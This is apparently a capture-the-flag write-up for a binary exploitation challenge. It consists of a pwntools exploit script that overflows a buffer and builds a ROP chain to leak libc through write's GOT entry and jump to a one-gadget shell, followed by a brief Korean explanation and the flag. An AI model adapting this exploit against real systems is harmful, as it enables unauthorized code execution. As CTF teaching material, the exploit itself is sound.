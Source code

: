 ```python
pprsi = 0x00000000004006c1
write = 0x400632

payload = 'A' * 0x88 + p64(0)
payload += 'A' * 8 + p64(pprsi) + p64(e.got['write']) + 'B' * 8
payload += p64(e.plt['write'])
payload += p64(prdi) + p64(0)
payload += p64(e.plt['read'])
payload += p64(e.plt['write'])

#gdb.attach(s,sc)
s.send(payload)

s.recvuntil('A' * 0x88)
libc = u64(s.recv(8)) - l.symbols['write']
log.info("LIBC : "+ hex(libc))

oneshot = libc + 0x4526a

pause()
s.sendline(p64(oneshot) * 0x10)

s.interactive()
```

- ex.py

사용하는 변수 bof로 \x00으로 맞춰주고 rop하면 된다.

flag : dimi{R1bb!t_r1bb!t_fr0g_1s\_$in9!ng_@_s0ng}

